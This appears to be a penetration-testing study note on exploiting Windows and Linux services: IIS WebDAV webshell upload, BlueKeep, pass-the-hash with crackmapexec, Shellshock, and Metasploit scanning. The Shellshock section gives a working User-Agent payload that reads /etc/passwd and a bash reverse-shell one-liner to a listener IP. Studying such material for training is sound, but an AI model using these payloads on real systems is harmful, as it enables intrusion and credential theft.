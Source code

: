# Vulnerability Assessment

Types of windows Vul
- Info disclosure
- Buffer overflows
- Remote Code Execution
- privilege escalation
- DOS

Frequently Exploited Win Native Services
- Microsoft IIS
- WebDAV
- SMB/CIFS
- RDP
- WinRM

**Vul scan with MSF**

**Ultra Useful MSF plugin: metasploit-autopwn**
To load it into msf use the following command
- wget the .rb file
- mv db_autopwn.rb /usr/share/metasploit-framewaork/plugins/
- Inside msfconsole: load db_autopwn (it only works when you got all the service info and host is in the postgredb database, so first do your nmap scans and load it in before using)
- There will be tons of exploit showing up, so be specific like: `db_autopwn -p -t -PI 445`
- `analyze` command will give you recommendations and `vulns` to detect vulnerabilities, it will show the CVEs


### Exploiting Microsoft IIS WebDAV

- IIS is basically a web server developed by microsoft for windows, typically run 80/443 without SSL/with SSL
- WebDav usually run on IIS or apache

**Exploitation Summary**
1. identify if the WebDAV has been configured to run on IIS web server
2. perform a brute-force attack on the server to obtain legitimate credentials
3. we can then authenticate with the WebDAV server and upload malicious .asp payload to get reverse shell
4. use `davtest` upload webshell eg: `davtest -auth username:password -url http://IP/webdav` to do a check to see what file can we upload
5. `cadaver` to upload files `cadaver http://IP/webdav`
6. kali comes with build in webshells at `/usr/share/webshells/`
7. in cadaver we say `put /usr/share/webshells/asp/webshell.asp`


### CVE-2019-0708 BlueKeep

- exploit RDP to gain remotely execute arbitrary code
- gain access to a chunk of kernel memory
- this module in msf will only work in x64 windows
- this module will need to set the target windows version manually

### WinRM (Pass-The-Hash-Attack) Named badblue in msf

- A technique that use to havest NTLM hashes or clear text passwords
- There are many Pass the hash attacks but will demonstrate: msf PsExec module and Crackmapexec
- after initial foothold: `load kiwi` to gain hash
- `crackmapexec smb <IP> -u <username> -p/-H <password or hash depending on the flag set before> -x <command to execute>`

### Frequently Exploited Linux Services

- Apache
- SSH
- FTP
- SAMBA

### Exploiting Bash CVE-2014-6271 Shellshock

- Remote Arbitrary commands via Bash
- 2 components are Bash and Apache
- apache web servers configured to run CGI (Common Gateway Interface) scripts or .sh scripts are also vulnerable to this attack (Injection attack: Inject command we want after those special chars)
- The core of this vul is caused by Bash where Bash mistakenly executes trailing commands after a series of char: () {:;};


DEMO:

The web page below has the /gettime.cgi script

```
<!DOCTYPE html>
<html>
<head>
<style>
body { 
    background-image: url('static/images/background.jpg');
    background-repeat: no-repeat;
    background-attachment: fixed;
    background-position: center; 
}
</style>
	<script>
	   setInterval(function() { 
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
				document.getElementById("output").innerHTML = this.responseText;
			}
		};
		xhttp.open("GET", "/gettime.cgi", true);
		xhttp.send();
	    }, 1000);
	</script>

</head>
<body>
	<div style="position:fixed;top:67%;left:40%" id="output" ></div>
</body>
</html>
```

Next we would like to see if the machine is vul to shellshock vulnerability, we can use `nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"` //script argument is to specify the location of the script

- We then use Burp Suite to intercept the website and change the user-agent to `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`
- As the response shows the passwd file, we can open a nc listening and instead use a reverse shell 1 liner `bash -i>&/dev/tcp/192.24.241.2/1234 0>&1`

msf way
- use module `exploit/multi/http/apache_mod_cgi_bash_env_exec`


### Vul scan with Nessus

- great thing with Nessus is that we can scan and put it into msfconsole
- nussus will first do host discovery before a scan
- To import scans into msf, just type db_import <location of nessus scans, in XML format, extension .nessus>
- a tip is to search in msf `search cve:2017 name:smb`

### Web APP with WMAP

- A powerful web app vuln scanner that can automate web server enumeration and identify vuln
- It is available as MSF plugin by default and is fully integrated with MSF
- to load the plugin just do `load wmap` in msfconsole
- do `wmap_<tab>` to see all commands available for us
- for wmap_targets, rmb to type full url (http://IP)
- wmap_run -t to check what modules will be used on target
- wmap_run -e to run
